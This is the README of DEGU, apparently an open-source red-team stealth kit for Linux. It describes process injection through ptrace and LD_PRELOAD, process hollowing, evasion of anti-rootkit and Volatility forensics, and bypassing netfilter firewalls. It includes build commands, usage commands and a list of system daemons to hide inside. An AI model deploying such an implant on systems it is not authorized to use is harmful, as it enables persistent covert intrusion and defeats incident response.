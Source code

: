# DEGU: Advanced Stealth Userland Kit
**EDUCATIONAL PURPOSES ONLY. USE EXCLUSIVELY ON YOUR OWN SYSTEMS.**

<p align="center">
  <img src="https://raw.githubusercontent.com/io-tl/degu-lib/refs/heads/main/degu.png">
</p>

## Overview

DEGU is a sophisticated stealth userland kit designed for covert operation for red teaming without requiring sys_clone/sys_execve calls as root. Developed primarily for red team operations, it enables persistent access to compromised assets while evading common detection mechanisms.

### Key Features

- **Evasion Capabilities**: Bypasses detection by conventional anti-rootkit tools and forensics frameworks including Volatility
- **Firewall Circumvention**: As root, bypasses netfilter rules using raw ethernet eBPF rules
- **Process Parasiting**: As root, it can inject into userland process or use process hollowing as user
- **Static Executable Launching**: Uses ulexec to launch static executables ( 🐁 ♥  Rust & Go ) inside parasited processes
- **Python API**: Provides seamless automation capabilities

## Requirements

- OpenSSH (for ssh-keygen binary)
- Python 3
- Golang
- GCC toolchain

## Quick Start

```bash
git clone https://github.com/io-tl/degu-lib
cd degu-lib
./config -r -s build
```

## Technical Architecture

DEGU operates as an "autorelocatable" executable library that uses signals to execute within parasitized processes without requiring fork, thread creation, or function hooking. 

Security features include:
- Elliptic curve cryptography (ed25519) for message signing and key exchange
- AES session encryption
- Process hollowing for stealth execution
- UDP/Raw ethernet packet communication

## Usage

### Root Mode

As root, DEGU can inject into existing processes using ptrace and wait for activation commands.

```bash
# Basic usage (auto-selects from candidate process list)
./degu.prod.so

# Target a specific process
./degu.prod.so <pid>

# Alternative: Use LD_PRELOAD (spawns a visible process)
LD_PRELOAD=/root/degu.dbg.so /bin/ls
```

#### Candidate Process Configuration

You can edit the list of candidate processes in `degu/main.c`:

```c
#define CANDSIZE 11
char *candidate[CANDSIZE]= {
    "udev",
    "cron",
    "udisksd",
    "syslog",
    "containerd",
    "sshd",
    "getty",
    "agetty",
    "dhcp",
    "master",
    NULL
};
```

### User Mode

As a regular user, DEGU can listen on a non-privileged UDP port:

```bash
# Parasite an executable and launch
./degu.dbg.so <port> <bin>

# Example
./degu.dbg.so 31337 /bin/ls

# Standalone without parasiting
./degu.dbg.so <port>

# Using LD_PRELOAD
PORT=31337 LD_PRELOAD=/path/to/degu.dbg.so /bin/ls
```

## Building

The `./config` script generates necessary keys and builds the DEGU components:

```bash
./config -r -s build
```

Options:
- `-d, --dest DEST`: Output directory (default: /tmp/degu)
- `-r, --rand`: Generate new keys.h (required for first build)
- `-s, --ssh`: Generate new SSH keys (required for first build)
- `-f, --force`: Overwrite existing libraries
- `-v, --verbose`: Enable verbose output

## Troubleshooting

DEGU may output error codes with specific emoticons:

| Symbol | Description | Error Code |
|--------|-------------|------------|
| `3<`   | Attach failed - couldn't attach via ptrace | -101 |
| `:(`   | Injection failed - couldn't write to process memory | -102 |
| `:/`   | Seccomp error - target has too restrictive seccomp policy | -103 |
| `:\`   | Deleted libs error - dlopen invocation would fail | -104 |
| `?`    | Parasiting error - not an ELF or insufficient memory | -105 |

## Debugging

The `degu.dbg.so` library outputs debug messages to `/tmp/debug`. For operational security, use `degu.prod.so` in production environments.

## Container Considerations

Be cautious when using in containerized environments, as ptrace syscalls may be restricted:

```
[269197.431639] ptrace attach of "sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups"[986278] was attempted by "./degu.dbg.so"[986385]
```

In such cases, consider using the LD_PRELOAD method instead.

## Client & API

For documentation on client usage and API functionality, see the separate client README.md.

---

*DEGU is designed for authorized security testing only. Unauthorized use against systems you don't own is illegal and unethical.*
